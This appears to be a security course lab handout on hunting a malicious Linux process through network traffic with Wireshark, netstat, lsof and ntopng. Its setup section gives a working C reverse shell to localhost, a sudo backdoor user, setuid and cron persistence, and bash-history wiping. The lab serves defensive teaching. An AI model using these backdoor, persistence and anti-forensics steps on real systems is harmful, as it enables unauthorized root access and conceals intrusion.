 # Linux Network Hunting Lab
In order for us to do a local hunt for a malicious Linux process, we have to make ourselves a malicious process. 

## Create Evil 

First let's pretend we are a bad guy who just got access to a box and are taking our first persistence steps. 

```
$ adduser backdooruser (and create new user)
$ usermod -aG sudo backdooruser
$ su - backdooruser
```

Next place the following code for a reverse shell into a file named mal.c and save it in your /bin directory:

```
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = 1337;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("127.0.0.1");

    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);

    return 0;       
}
```

Then run the following commands:

```
$ gcc mal.c -o /bin/mal 
$ rm mal.c
$ sudo chmod u+s /bin/mal
$ sudo crontab -e

```

Add line to cron file and save to set up the cron job: 

```
*/5 * * * * /bin/mal
```

Once you have that done step out of the ```su``` back to your normal user and run ```$ nc -lp 1337 ``` and in another window run ```$ /bin/mal```.

You should have a root shell connect back. Confirm that this works before moving forward. 

Now let's clear out our command history with ```cat /dev/null > ~/.bash_history```, because we are sneaky little backdoor hiders.

Kill the connection and start listening again.

# Network Hunting 

We can use network traffic to identify evil, in fact, it just might be the easiest way to initially detect something without having to go look for it.

If malware is on your network, it is going to try to talk out to its command and control server. There are plenty of ways to look at network traffic, especially if you are a larger organization that has a security monitoring setup like SecurityOnion.

## Hunting Packet Captures

This is the more common form of network hunting. Rather than being on the potentially compromised box itself, we can just look at the packets captured and search through it to find evil. This is the bread and butter of most organization's defensive posture.

Set up Wireshark and begin capturing on the localhost interface (this is essential because your reverse shell is heading to 127.0.0.1 and will not wind up leaving the main interface. Wait for your reverse shell to connect and then use the nc listener to run a few commands. Use ?wget https://st2.depositphotos.com/1000393/6507/i/950/depositphotos_65076917-stock-photo-hacker-and-terrorism-fight.jpg? as one of your commands. 

Use the Wireshark capture you generated to find the malicious process and data that was passed back and forth. 

## Local Network Hunting 

Locally, it should be easy to identify both your listening and connected processes using the following commands. They all do something slightly different but are very useful.

* netstat -antp
* netstat -la | grep ?LISTEN? ?ESTABLISHED?
* lsof -u 
* lsof -i

In the real world, we could set up a log monitoring system that would check these sort of things on a regular basis but that is overkill for a single host.

## Everyday Hunting

For everyday use on a Linux box I recommend the tool ntopng and Wireshark for this purpose. ntop identifies processes making network connections and alerts on them. If the process doesn't make sense when it pops up, go to Wireshark and open up the stream to see if it makes sense.
 
Assignment: 

0. Make sure you understand what the attacker did and why. Try to understand what the effect was of each command the attacker ran. This is some pretty complicated stuff. 
1. Write up a minimal report on the malicious actions taken by the attacker as well as information about the backdoor, according to the packet capture and the networking commands used. Include information from the command outputs' and Wireshark to provide detail. Do not go any further than this lab's content in your writeup. 
